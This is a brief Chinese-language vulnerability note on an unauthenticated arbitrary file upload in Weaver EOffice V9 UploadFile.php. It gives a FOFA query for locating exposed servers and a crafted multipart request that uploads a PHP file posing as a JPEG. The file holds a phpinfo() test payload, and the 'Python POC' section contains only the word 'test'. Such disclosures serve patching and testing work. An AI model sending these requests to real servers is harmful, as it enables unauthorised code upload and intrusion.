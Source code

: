 # 泛微EOffice V9 UploadFile.php 前台任意文件上传



## 漏洞描述

```
泛微EOffice V9 UploadFile.php文件只校验了是否是multipart请求
通用==> OA V9 /page/exportImport/uploadOperation.jsp
```

## FOFA

```
app="泛微-EOffice"
```

## 漏洞利用

登录页面



更改请求包伪造multipartRequest,发包。

```
Content-Type: multipart/form-data; boundary=----随机生成

--xxxxxxxxxxx
Content-Disposition: form-data; name="Filedata"; filename="test.php"
Content-Type: image/jpeg
 
<?php phpinfo();?> 
--xxxxxxxxxx--
```

<img src="img/image-20230808172441591.png" alt="image-20230808172441591" style="zoom: 67%;" />

## Python POC

```
test
```

